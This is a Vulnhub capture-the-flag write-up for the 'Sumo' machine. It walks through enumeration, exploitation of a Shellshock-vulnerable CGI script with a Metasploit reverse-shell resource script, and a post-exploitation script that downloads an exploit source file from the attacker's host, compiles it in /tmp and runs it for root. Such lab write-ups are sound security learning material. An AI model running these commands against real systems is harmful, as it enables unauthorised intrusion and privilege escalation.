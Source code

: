 # Vulnhub Writeup #5: Sumo

## Key lessons learned:

- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability

## Getting started


### nmap output
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### **Enumerating found services**
Semi-Manual techniques
- Opened up ZAP and crawled host's port 80 HTTP server
  - found nothing of note 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster 
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [web_enum_resources](web_enum_resources) which was able to identify this folder, as well as a default "it works! file". From here it'd probably take some deduction and research on the cgi directory to ascertain that we could exploit something here.

### **Exploiting found services**
Scanned for shellshock vulnerabilities in MSF. 
```
search shellshock
```
The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module. Searchsploit could've been used here as well.


## **Post exploit enumeration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Nix-post-exploit-bash_enum_script](Nix-post-exploit-bash_enum_script)
- 
```text 
searchsploit ubuntu 3.2.0 
```

### MSF resource script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```

### sumo_post.sh (post exploitation script)
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Other Lessons Learned
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp
